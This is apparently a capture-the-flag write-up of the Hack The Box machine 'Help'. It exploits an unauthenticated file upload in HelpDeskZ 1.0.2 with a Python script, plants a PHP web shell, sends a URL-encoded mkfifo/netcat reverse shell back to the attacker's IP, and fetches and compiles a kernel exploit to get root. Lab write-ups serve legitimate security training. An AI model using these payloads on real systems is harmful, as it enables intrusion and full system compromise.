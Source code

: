 ```yaml
---
title: Help
tags: linux
---
```


![image](assets/79370689-1ddea400-7f21-11ea-9891-c8d29a592923.png)

## Overview
Help is an Ubuntu box running helpdesk software that was vulnerable to an unauthenticated arbitrary file upload. After getting some additional information from the application's github repo and tweaking the exploit I was able to get initial foothold as user 'help'. After running the linux-exploit-suggester-2 tool I was able to upload and compile a kernel exploit on the target to obtain a shell as root.

## Enumeration

**Software**

* Ubuntu 16.04.5 LTS
* Apache 2.4.18
* Node.js Express Framework
* Helpdeskz 1.0.2

**NMAP Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.121 -oN /mnt/data/boxes/help/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 80/tcp - http
* 3000/tcp - http

**Gobuster**
```
gobuster dir -u http://10.10.10.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 35
```

* /support
* /index.html
* /javascript

## Steps (user)

I started off by browsing to http://10.10.10.121 which showed the Apache2 Ubuntu Default Page. Moving on to the gobuster results, I browsed to http://10.10.10.121/support which showed a [Helpdeskz](https://www.helpdeskz.com/) page.

![image](assets/82090583-d84dfc00-96c3-11ea-8afd-55e3b9c88e06.png)

I ran a search against searchsploit for "helpdeskz" and there were two results. 

![image](assets/82107448-b8373080-96f5-11ea-85b7-38f72922ee10.png)

Since 41200 required authentication and I had yet to find any credentials, I went with 40300.

https://www.exploit-db.com/exploits/40300

The script works by getting current time from the webserver and generating filenames by taking the filename + current time and hashing it with md5 to creat the final filename. The script then checks to see if that file exists on the webserver. If response 200 is returned the url is printed to the screen and the script is stopped. I had to make a few tweaks to get it to work.

```python
import hashlib
import time
import sys
import requests
import datetime

print('Helpdeskz v1.0.2 - Unauthenticated shell upload exploit')

if len(sys.argv) < 3:
    print("Usage {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0]))
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]


r = requests.get(helpdeskzBaseUrl)

#Gets the current time of the server to prevent timezone errors - DoctorEww
currentTime = int((datetime.datetime.strptime(r.headers['date'], '%a, %d %b %Y %H:%M:%S %Z') - datetime.datetime(1970,1,1)).total_seconds())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext.encode('utf-8')).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'

    print("[*] Trying time offset: " + str(x))

    response = requests.head(url)

    if response.status_code == 200:
        print("[!] Found! => " + url)
        sys.exit(0)

print("[*] Sorry, I did not find anything")

```

The URL mentioned in the comments of the exploit was different than the URL on the target so I wanted to confirm the correct path before continuing. I did an internet search for helpdeskz application and found its github repo https://github.com/evolutionscript/HelpDeskZ-1.0

I found UPGRADING.txt which allowed me to pull that file up on the target box and confirm it was version 1.0.2.

![image](assets/82108398-24b52e00-96fc-11ea-991c-07d2bb68efdd.png)

I then reviewed the controllers/submit_ticket_controller.php file that was mentioned in the notes and found the section dealing with uploads

```
"UPLOAD_DIR".'tickets/'
```

![image](assets/82108481-a60cc080-96fc-11ea-9aa6-f0f7f5cf1e22.png)

I continued to look around and found that the includes/global.php defined the UPLOAD_DIR variable:

```
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```

![image](assets/82108491-c3418f00-96fc-11ea-876b-1972a36080d5.png)

Putting everything together the full path is **http://10.10.10.121/uploads/tickets**

Having everything I needed to run the script I created a basic web shell and saved it to cmd.php
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' cmd.php
```
I clicked "Submit a Ticket", filled out the required field, attached the cmd.php and clicked submit.

![image](assets/82101138-a9db1b80-96d9-11ea-9179-58e07eee17fc.png)

I ran the script providing the url and cmd.php as parameters. The script was able to determine the name of the file as **993824593a0e0385f451288588801156.php**

```
python3 ./40300.py http://10.10.10.121/support/uploads/tickets/ cmd.php
```

![image](assets/82107927-39dc8d80-96f9-11ea-84a6-7e6d313238e0.png)

I browsed to http://10.10.10.121/uploads/tickets/993824593a0e0385f451288588801156.php and added ?cmd=lsb_release -a to confirm I was able to run commands and see the output.

```
http://10.10.10.121/support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=lsb_release%20-a
```

![image](assets/82101259-0e967600-96da-11ea-9126-d18f2c84d0df.png)


I opened burp and sent the request to repeater so I could modify the request. I modified the request and url encoded it, and after setting up a netcat listner (nc -lvnp 4200), I hit send.

```
GET /support/uploads/tickets/993824593a0e0385f451288588801156.php?cmd=rm+/tmp/z%3bmkfifo+/tmp/z%3bcat+/tmp/z|/bin/sh+-i+2>%261|nc+10.10.14.24+4200+>/tmp/z+HTTP/1.1
```
![image](assets/82107073-fb43d480-96f2-11ea-896f-57c9f59dcde9.png)


## Steps (root/system)

I didn't find much enumerating help's home folder, there was a password in the .bash_history file but it didn't appear to be used anywhere on the box. LinEnum didn't turn up anything out of the ordinary. I downloaded [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2) and it showed a few kernel exploits for version 4.4.0.

![image](assets/82107334-d3ee0700-96f4-11ea-95ee-c96a1e0f7100.png)

I ran searchsploit -m to make a copy of the exploit from searchsploit

```
searchsploit -m 45010
```

I started up a python http server on my box and copied the exploit to the target box

```
python3 -m http.server 80
```

```
wget http://10.10.14.24/45010.c
```

GCC was installed so I was able to compile it right on the target
```
gcc 45010.c -o 45010
```

After running it I received a root shell

![image](assets/82107377-229ba100-96f5-11ea-87d7-fba62581838c.png)
